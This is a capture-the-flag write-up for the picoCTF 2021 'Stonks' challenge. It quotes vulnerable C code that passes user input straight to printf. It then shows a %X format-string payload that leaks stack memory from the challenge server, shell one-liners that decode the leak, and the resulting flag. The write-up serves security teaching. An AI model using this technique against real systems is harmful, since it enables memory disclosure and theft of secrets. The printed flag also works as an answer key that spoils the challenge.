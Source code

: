 ```yaml
---
title: "picoCTF 2021: Stonks Write-up | Binary Exploitation"
date: 2021-12-11
tags: [binary exploitation, c, input validation, string format vulnerability]
---
```


# Description

> I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c `nc mercury.picoctf.net 16439`
>    Hint: Okay, maybe I'd believe you if you find my API key.

# Solution

Following the command in the challenge's description, we start a [netcat](https://en.wikipedia.org/wiki/Netcat){:target="_blank"} session with the given server and are presented with the following prompt:

```console
What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

Selecting option 1 will ask us for an API token:

```console
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```

And whatever character we input will return us a list of "stocks".

The details surrounding this challenge are mostly gibberish obviously, there is no actual trading bot or API calls.

However, upon following the challenge's hint and examining the C code provided `vuln.c`, we'll find the following:

```c
 89    char *user_buf = malloc(300 + 1);
 90    printf("What is your API token?\n");
 91    scanf("%300s", user_buf);
 92    printf("Buying stonks with token:\n");
 93    printf(user_buf);
```

Assuming this is the code running on the server we just connectd to, we should recognize the prompts we interacted with, asking us for an "API key". 

On line `93` we can spot a bad coding practice in C, the printing of a variable with no input validation. On line `92` we note that this variable is what's being read as the user input for when the "API key" is requested. This is a [string format vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string){:target="_blank"} we can attempt to exploit.

If we connect to the server again and input multiple `%X` characters at that prompt, we'll get the server to print data from the stack in hex:

```console
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X
Buying stonks with token:
88494F0804B00080489C3F7F48D80FFFFFFFF18847160F7F56110F7F48DC708848180388494D088494F06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFDB007DF7F83AF8F7F56440424F380010F7DE5BE9F7F570C0F7F485C0F7F48000FFDB8D88F7DD658DF7F485C08048ECAFFDB8D940
```

Converting the hex to text:

```console
$ echo "88494F0804B00080489C3F7F48D80FFFFFFFF18847160F7F56110F7F48DC708848180388494D088494F06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFDB007DF7F83AF8F7F56440424F380010F7DE5BE9F7F570C0F7F485C0F7F48000FFDB8D88F7DD658DF7F485C08048ECAFFDB8D940" | xxd -p -r
IH?HGVHpHIocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6}:d@BO8[pۍeH@%
```

We can spot something that looks like the flag, albeit scrambled. Let's get rid of the extra data:

```console
$ echo "6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFDB007D" | xxd -p -r
ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6}
```

If we pay close attention, we'll notice that every 4 characters are in reverse order. We can rearrange correctly with this sweet one-liner:

```console
$ echo 'ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6}' | fold -w4 | rev | tr -d '\n'
picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
```

`fold -w4` wraps our string into four character wide lines, `rev` reverses each line, then we trim line breaks with `tr -d '\n'`, and there's our flag.
